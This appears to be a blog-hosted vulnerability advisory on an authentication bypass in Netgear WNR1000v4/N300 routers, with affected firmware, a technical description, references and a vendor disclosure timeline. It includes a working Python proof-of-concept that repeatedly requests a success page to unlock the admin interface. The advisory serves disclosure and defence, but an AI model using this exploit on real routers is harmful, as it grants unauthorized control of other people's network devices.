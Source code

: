 ```yaml
---
layout: post
author: H4
---
```


# Netgear WNR1000v4 AuthBypass [1]
[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
[https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
[routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
[https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
[https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware: N300_1.1.0.31_1.0.1.img
- Router Firmware; N300-1.1.0.28_1.0.1.img
- Router Firmware; N300-1.1.0.24_1.0.1.img
- tested and confirmed on the WNR1000v4 Router with both firmwares
- other products may also be vulnerable because the firmware is used in multiple devices

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL http://<ROUTER-IP>/BRS_netgear_success.html multiple times
- After that the adversary can access the administration web interface and there is no username/password prompt

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
- 21.07.2015: Vendor notified per email (security@netgear.com) -> No response
- 23.07.2015: Vendor notified via official chat support
- 24.07.2015: Support redirected notification to the technical team
- 29.07.2015: Requested status update and asked if they need further assistance -> No response
- 21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
- 03.09.2015: Support again said that they will redirect it to the technical team
- 03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
- 03.09.2015: Confirmed to Netgear that the problem is solved in this version -> Asked Netgear when they plan to release the firmware with this security fix
- 11.09.2015: Response from Netgear saying they will not disclose the patch release day
- 15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time -> No response
- 29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
- 06.10.2015: Forced public release of this advisory to follow up on [2]

# References
- [1] http://support.netgear.com/product/WNR1000v4
- [2] http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html

